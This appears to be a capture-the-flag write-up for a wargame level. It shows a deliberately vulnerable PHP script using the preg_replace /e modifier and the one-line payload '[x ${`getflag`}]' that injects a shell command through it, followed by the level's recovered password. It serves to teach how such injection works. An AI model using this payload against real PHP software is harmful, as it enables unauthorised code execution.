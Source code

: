 We can see a `.php` file and an executable file, both owned by `flag06` user.

Let’s see the php file first

```bash
#!/usr/bin/php
<?php
function y($m) { 
	$m = preg_replace("/\./", " x ", $m); 
	$m = preg_replace("/@/", " y", $m); 
	return $m; 
	}
function x($y, $z) { 
	$a = file_get_contents($y); 
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); 
	$a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); 
	return $a; }
$r = x($argv[1], $argv[2]); 
print $r;
?>
```

It takes two parameters, then calls function `y` and returns the value of its parameter assuming it refers to a file (we have file_get_content function)

Then there are replacements using regular expressions

It uses `/e` regex which is deprecated so `/(\[x (.*)\])/e` will evaluate any string given in the form `[x (.)]` , will interpret it as PHP code and call `y` function with “.” as parameter, allowing to inject getflag command, so let’s exploit it.

```bash
echo '[x ${`getflag`}]' > /tmp/get06
./level06 /tmp/get06
```

And we got out token so lets go

```bash
su level07
Password wiok45aaoguiboiki2tuin6ub
```